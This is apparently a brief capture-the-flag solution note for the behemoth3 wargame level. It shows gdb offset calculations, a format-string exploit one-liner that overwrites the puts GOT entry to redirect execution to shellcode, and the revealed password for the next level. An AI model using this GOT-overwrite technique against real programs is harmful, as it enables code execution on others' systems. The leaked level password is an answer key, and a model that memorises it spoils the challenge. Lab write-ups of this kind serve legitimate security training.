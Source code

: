 shellcode at 0xffffdf14

080497ac R_386_JUMP_SLOT   puts@GLIBC_2.0

(gdb) p 0xffff - 8
$1 = 65527

(gdb) p 0xdf14 - 8
$3 = 57100
(gdb)

(gdb) p 0xffff - 0xdf14
$4 = 8427
(gdb)

(echo -e "\xac\x97\x04\x08\xae\x97\x04\x08%57100x%1\$hn%8427x%2\$hn";cat )| ./behemoth3

behemoth4:ietheishei
